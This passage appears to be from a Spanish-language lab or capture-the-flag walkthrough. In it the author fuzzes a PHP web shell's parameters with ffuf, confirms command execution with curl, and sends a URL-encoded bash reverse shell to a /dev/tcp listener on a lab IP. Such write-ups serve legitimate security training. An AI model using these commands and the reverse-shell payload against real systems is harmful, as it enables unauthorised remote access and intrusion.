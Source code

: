 ```

a                       [Status: 200, Size: 33, Words: 5, Lines: 1, Duration: 0ms]
```

Bueno viendo la pagina /thejabasshell.php?a=ls no suelta un error y dice:
- Error: Problem with parameter "b"

Visualizando esto nos damos cuenta que existe un nuevo parametro "b"

Volvemos a fuzzear ahora con el parametro de b
```
❯ ffuf -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt:FUZZ -u 'http://10.0.2.16/thejabasshell.php?a=ls&b=FUZZ' -fs 33

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v1.5.0 Kali Exclusive <3
________________________________________________

 :: Method           : GET
 :: URL              : http://10.0.2.16/thejabasshell.php?a=ls&b=FUZZ
 :: Wordlist         : FUZZ: /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200,204,301,302,307,401,403,405,500
 :: Filter           : Response size: 33
________________________________________________

pass                    [Status: 200, Size: 40, Words: 1, Lines: 5, Duration: 1ms]
:: Progress: [220560/220560] :: Job [1/1] :: 20572 req/sec :: Duration: [0:00:10] :: Errors: 0 ::
```

Ahora si con esto ya podemos ver que el parametro ineyectable es la a

```
❯ curl --url "http://10.0.2.16/thejabasshell.php?a=id&b=pass"                      
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

Con esto ahora nos podemos spawnear una shell

```
❯ urlencode '/bin/bash -c "/bin/bash -i >& /dev/tcp/10.0.2.4/443 0>&1"'
%2Fbin%2Fbash%20-c%20%22%2Fbin%2Fbash%20-i%20%3E%26%20%2Fdev%2Ftcp%2F10.0.2.4%2F443%200%3E%261%22
                                                                
❯ curl --url "http://10.0.2.16/thejabasshell.php?a=%2Fbin%2Fbash%20-c%20%22%2Fbin%2Fbash%20-i%20%3E%26%20%2Fdev%2Ftcp%2F10.0.2.4%2F443%200%3E%261%22&b=pass"

```
